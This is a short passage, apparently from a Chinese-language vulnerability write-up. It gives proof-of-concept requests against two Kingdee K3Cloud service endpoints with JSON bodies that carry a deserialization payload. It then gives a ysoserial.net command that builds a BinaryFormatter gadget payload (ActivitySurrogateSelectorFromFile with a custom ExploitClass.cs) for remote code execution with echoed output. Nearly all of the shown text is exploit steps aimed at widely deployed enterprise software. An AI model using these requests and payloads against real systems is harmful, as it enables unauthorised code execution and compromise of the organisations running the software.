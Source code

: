 对应 poc：

```bash
/K3Cloud/Kingdee.BOS.ServiceFacade.ServicesStub.DevReportService.GetBillData.common.kdsvc

{"ap0":"1","ap1":"1","ap2":"payload","format":"3"}
```

[![](assets/1707953861-910dee03c336b15863bae850f31447ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206123731-70c8edca-c4a9-1.png)

对应 poc：

```bash
/K3Cloud/Kingdee.BOS.ServiceFacade.ServicesStub.BizTipsInfosService.SaveBizTipsInfos.common.kdsvc

{"ap0":"1","ap1":"payload","format":"3"}
```

最后使用工具：[https://github.com/pwntester/ysoserial.net](https://github.com/pwntester/ysoserial.net)，生成回显 poc

```bash
ysoserial.exe -c "ExploitClass.cs;System.Windows.Forms.dll;System.Web.dll;System.dll" -f BinaryFormatter -o base64 -g ActivitySurrogateSelectorFromFile
```

[![](assets/1707953861-65a77a0283895c7acfb989357bb96c02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206123739-75af0ce8-c4a9-1.png)
